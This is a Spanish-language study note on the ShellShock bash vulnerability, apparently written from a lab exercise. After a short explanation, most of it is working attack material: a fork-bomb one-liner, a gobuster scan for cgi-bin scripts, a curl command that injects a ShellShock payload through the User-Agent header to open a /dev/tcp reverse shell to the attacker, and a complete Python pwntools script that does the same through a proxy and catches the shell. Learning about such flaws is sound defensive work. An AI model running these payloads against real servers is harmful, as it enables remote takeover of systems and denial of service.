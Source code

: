 ----
- Tags: #ataques #basico #teoria #practica
----

# ¿ Que es un **ataque ShellShock** ? 

### Un ataque **ShellShock** es un tipo de ataque informático que aprovecha una vulnerabilidad en el **intérprete de comandos bash** en sistemas operativos basados en Unix y Linux. Esta vulnerabilidad se descubrió en 2014 y se considera uno de los ataques más grandes y generalizados en la historia de la informática. 

### Esta vulnerabilidad en Bash permite a los atacantes ejecutar comandos maliciosos en el sistema afectado, lo que les permite tomar el control del sistema y acceder a información confidencial, modificar archivos, instalar porgramas maliciosos, etc. 

### La vulnerabilidad ShellShock se produce en el intérprete de comandos Bash, que es utilizado por muchos sistemas operativos Unix y Linux para ejecutar scripts de Shell. El problema radica en la forma en que Bahs maneja las variable de entorno. Los atacantes pueden inyectar código malicoso en estas variables de entorno, las cuales Bash ejecuta sin cuestion su origin o contenido. 

### Los atacantes pueden explotar estas vulnerabilidades a través de diferentes vectores de atauqe. Uno de ellos es a través del User-Agent, que es la información que el navegador web envía al servidor web para indentifcar el tipo de navegador y sistema operativo qu está utilizando. Los atacantes pueden manipular el User-Agent para incluir comandos maliciosos, que el servidor web ejecutará al recibir la solicitud.

---

# Expotación 

### Para explotar un ShellShock Attack, es importante tener en cuenta que para saber si este es vulnerable, es necesario probarlo, asi como tener en cuenta que este funciona para viejas versiones de bash. 

### Existen [páginas webs](https://blog.cloudflare.com/inside-shellshock/) que enseñan a explotar dicha vulnerabilidad, esto suele ser posible a traves del **User-Agent** el cual recibe como valor un payload con la sig. estructura: `() { :; }; echo; <commando_to_execute>`. Este payload es simpilar al del [Fork Bomb Attack](https://en.wikipedia.org/wiki/Fork_bomb) el cual es un ataque de denegación de servicio con la estructura de: 
```shell 
:(){:|:&};:
# O 
fork(){
	fork | fork &
}; 
fork 

```

### Por lo que se podria tramitar una petición curl de la sig. manera, teniendo en cuenta que mediante *gobuster* se encontro por fuzzing la URL **cig-bin**, sabiendo que siempre que veamos una ruta como esta es importante probar un **ShellShock Attack**: 

```shell
# Es importante al descubrir un dir cgi-bin, buscar archivos con la extensión pl o sh o cgi. 
gobuster dir -u http://<ip>:<port>/cgi-bin --proxy http://<proxy_ip>:<proxy_port> -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x pl,sh,cgi
```

```shell
curl --proxy http://<proxy_ip>:<proxy_port> -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i &>/dev/tcp/<own_ip>/<port> 0>&1'" "http://<ip>:<port>/cgi-bin/status"
```

### Así mismo, podriamos crear un script en python para entablar una consola interactiva o mismo para ejecutar comandos 

```python
#!/usr/bin/python3 

import sys, signal, requests, threading
from pwn import * 

# Ctrl + c

def ctrl_c(sig, frame): 
    print("\n\n[!] Saliendo...\n\n")
    sys.exit(1)

signal.signal(signal.SIGINT, ctrl_c)

# Global vars 

url = "http://192.168.1.38/cgi-bin/status"
squid_proxy = {'http': 'http://192.168.1.38:3128'}
lport = 443

# Bin 

def shell_shock(): #command 

    headers = {'User-Agent':'() { :; }; echo; /bin/bash -c "/bin/bash -i &>/dev/tcp/192.168.1.35/443 0>&1"'}
    #user_agent = {'User-Agent': '() { :; }; echo; %s' % (command)} 

    r = requests.get(url, headers=headers, proxies=squid_proxy)
    #print("\n\n\t(!) Output del comando: %s" % (r.text))

if __name__ == "__main__": 
    #command = input("Ingrese un comando a ejecutar: ")
    #shell_shock(command)
    try:
        threading.Thread(target=shell_shock, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()

    if shell.sock is None:
        log.failure("No se pudo establecer la conexión")
        sys.exit(1)
    else: 
        shell.interactive()
```

### La libreria **pwntools/pwn** sirve para poder entablar una consola interactiva, entre otras cosas. Mientras que la libreria **threading** para ejecutar las cosas con hilos. 

#### threading.Thread().start()   ---->  **Iniciar un nuevo hilo**
#### target=() ----> **Función a ejecutar** 
#### args=() ----> **Argumentos a pasarle a la función** 

#### listen() ----> **Ponerse en escucha a espera de una conexión** 
#### lport, timeout=20 -----> **Puerto, Tiempo de espera** 
#### .interactive() ----> **Abrir la consola en base de la conexión** 

